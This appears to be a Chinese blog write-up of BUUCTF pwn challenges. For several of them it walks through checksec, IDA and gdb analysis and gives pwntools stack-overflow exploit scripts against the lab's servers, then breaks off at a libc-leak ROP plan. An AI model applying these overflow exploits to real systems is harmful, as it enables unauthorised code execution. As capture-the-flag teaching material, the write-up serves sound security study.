 ```yaml
---
title: BUUCTF[Pwn]
author: Stan
date: 2020-09-17 19:00:33 +0800
categories: [CTF,BUUCTF]
tags: [Pwn]
---
```

## test_your_nc
```
nc node3.buuoj.cn 25795
```

![2020-09-17_13-42-26](https://i.loli.net/2020/09/18/NACD2xQiStRhu5T.png)

直接nc过去，ls即可看到文件，发现flag，cat即可发现flag

```
cat flag
```

---

## rip

先`checksec`，发现保护都没开

![2020-09-17_15-09-45](https://i.loli.net/2020/09/19/LdE5bpzWK9lyCAt.png)

打开`IDA64`

搜索字符串，发现**/bin/sh**

查交叉引用，最后发现这里![2020-09-17_19-15-52](https://i.loli.net/2020/09/19/bW4emScKthifgJR.png)

system也有了，根据题目名字，只要栈溢出，rip覆盖成40118A就行了

![image-20200917192213258](https://i.loli.net/2020/09/19/jFzIb1xnsef5k3J.png)

很明显gets函数没有限制输入，存在溢出点

![image-20200917192549256](https://i.loli.net/2020/09/19/di3Ojf5xtwm1yCg.png)

之后查看栈，发现只要覆盖15+8就可以了

之后写Exploit

````python
from pwn import *

a=process('./pwn1')

a.recvuntil("please input")

a.sendline(b"a" * 23 + p64(0x40118A))

a.interactive()
````

这是本地调试，非常成功，但是跑remote会无反应

怀疑是服务器文件和下发的文件不同，需要猜测代码

先nc过去查看程序逻辑

应该就是把puts和gets的位置反了一下，调整一下exp

````python
from pwn import *

a=remote('node3.buuoj.cn',27250)

a.sendline(b"a" * 23 + p64(0x40118A))

a.interactive()
````

因为顺序反了，所以直接send就行

得到flag

---

## warmup_csaw_2016

先`checksec`

![image-20200919124407183](https://i.loli.net/2020/09/19/USwa9vEypzTxtk5.png)

无保护

用`IDA64`打开，看到了敏感函数

![image-20200919124759965](https://i.loli.net/2020/09/19/BXWJ1R9FwDe35qt.png)

为了方便直接用`gdb`

先**pattern create**创建垃圾字符，然后**run**运行，等到gets函数的时候粘贴垃圾字符

![image-20200919125221996](https://i.loli.net/2020/09/19/YLRwfglMHPIeV9U.png)

得到偏移(offset)值为72

![image-20200919125425197](https://i.loli.net/2020/09/19/EpVG9CM5m8ZWIqF.png)

之后写exploit

最开始敏感函数的位置是0000000000400611

````python
from pwn import *

a=remote("node3.buuoj.cn",26276)

#a=process("./warmup_csaw_2016")

a.sendline(b"a" * 72 + p64(0x400611))

a.interactive()
````

本地调试的时候因为无法cat flag.txt，所以会报错，直接remote就可以了

![image-20200919130030639](https://i.loli.net/2020/09/19/rOnN9a4wkcJoezY.png)

得到flag

---

## pwn1_sctf_2016

日常`checksec`

![image-20200919131722183](https://i.loli.net/2020/09/19/woVXPu8Cn7mzvZB.png)

发现开启了NX，也就是堆栈不可执行

拉进`ida32`，找到了敏感函数

![image-20200919141653100](https://i.loli.net/2020/09/19/2GgSEzoH3uJlkMx.png)

vul函数中，溢出点应该是fgets，要覆盖60+4位，但是长度限制32

中间一大段看不懂，尝试了一下

![image-20200919142145602](https://i.loli.net/2020/09/19/v9Kyrwn6NbxRzhP.png)

把I替换成了you，也就是说能够用64/3=21个I+64 mod 3=1个其余垃圾字符来溢出

开始写Exploit

````python
from pwn import *

a=remote('node3.buuoj.cn',27812)

#a=process("./pwn1_sctf_2016")

a.sendline(b"I" * 20+ b"a"*4 + p32(0x8048F13))

a.interactive()
````

![image-20200919214922369](https://i.loli.net/2020/09/19/uHvlIpQYEf6BTc3.png)

发现flag

---

## ciscn_2019_n_1

日常`checksec`

![image-20200919215440393](https://i.loli.net/2020/09/19/a6ebU4omWKGMhND.png)

64位且开启了NX

打开`IDA64`,发现敏感函数

![image-20200919215616095](https://i.loli.net/2020/09/19/VM9H247KnmWBG5u.png)

查看代码，发现gets可以溢出

![image-20200919221158798](https://i.loli.net/2020/09/19/AR2MeicndpQEfyU.png)

写exp

````python
from pwn import *
a=remote('node3.buuoj.cn',28471)

#a=process("./ciscn_2019_n_1")

a.recvuntil(".")

a.sendline(b"a" * 56 + p64(0x4006BE))

a.interactive()
````

当然还有其他解法，就是顺着程序，让v2=11.28125

````python
from pwn import *

r=remote('node3.buuoj.cn',28471)

r.sendline('a'*0x2c+p64(0x41348000))

r.interactive()
````

两种方法都可以发现flag

![image-20200919221108810](https://i.loli.net/2020/09/19/hD2J9NrlQBkIAgV.png)

---

## ciscn_2019_c_1

日常`checksec`

![image-20200919215440393](https://i.loli.net/2020/09/19/a6ebU4omWKGMhND.png)

只开了NX

用`IDA`打开，在encrypt函数中找到了溢出点gets

![image-20200920230148555](https://i.loli.net/2020/09/20/623WaEnSmQdZxK5.png)

没有后门函数，要自己泄露libc进行rop
